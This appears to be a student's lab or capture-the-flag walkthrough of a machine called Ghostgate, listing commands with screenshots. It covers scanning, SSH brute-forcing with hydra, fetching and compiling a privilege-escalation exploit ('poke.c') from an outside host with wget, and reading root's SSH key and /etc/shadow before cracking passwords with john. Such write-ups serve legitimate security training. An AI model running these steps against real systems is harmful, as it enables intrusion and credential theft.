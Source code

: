 ﻿# Ghostgate 192.168.2.150
## Andrea Zonnekus 18758119

sudo nmap -p- -sV -O -oN host 192.168.2.150 --script="default or safe"

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.001.png)

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.002.png)



gobuster dir -u http://192.168.2.150 -w /usr/share/dirb/wordlists/big.txt

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.003.png)

nikto -url <http://192.168.2.150>

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.004.png)

showmount -e 192.168.2.150

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.005.png)

sudo mount -t nfs 192.168.2.150:/mnt/tmp /mnt/tmp

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.006.png)

ls

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.007.png)

<http://192.168.2.150/~centurion/>

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.008.png)



cat xwlog

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.009.png)

vncviewer 192.168.2.150:5901

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.010.png)

(vnc)

little birdie told me the users

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.011.png)

hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.2.150 -m ssh -e nsr

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.012.png)

ssh aetian@192.168.2.150 -o HostKeyAlgorithms=+ssh-dss

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.013.png)

nmap –interactive

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.014.png)



sudo nmap -Pn -sV -sU 192.168.2.150 -oN host\_udp –open

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.015.png)

cat /usr/lib/cron/run-crons

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.016.png)

la

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.017.png)

cat mcelog

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.018.png)

php -S 0.0.0.0:80

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.019.png)

uname -a

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.020.png)

wget <http://10.8.0.106/poke.c>

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.021.png)



gcc poke.c -o poke -pthread -lcrypt

./poke

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.022.png)

su firefart

ls

id

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.023.png)

cd /root/.ssh

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.024.png)

cat id\_rsa

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.025.png)

cat /etc/shadow

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.026.png)



cat /etc/passwd

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.027.png)

john passwd shadow

![](ghostgate_steps/Aspose.Words.d9d0798e-203e-4c6c-9d9d-71c2b0eff8e5.028.png)
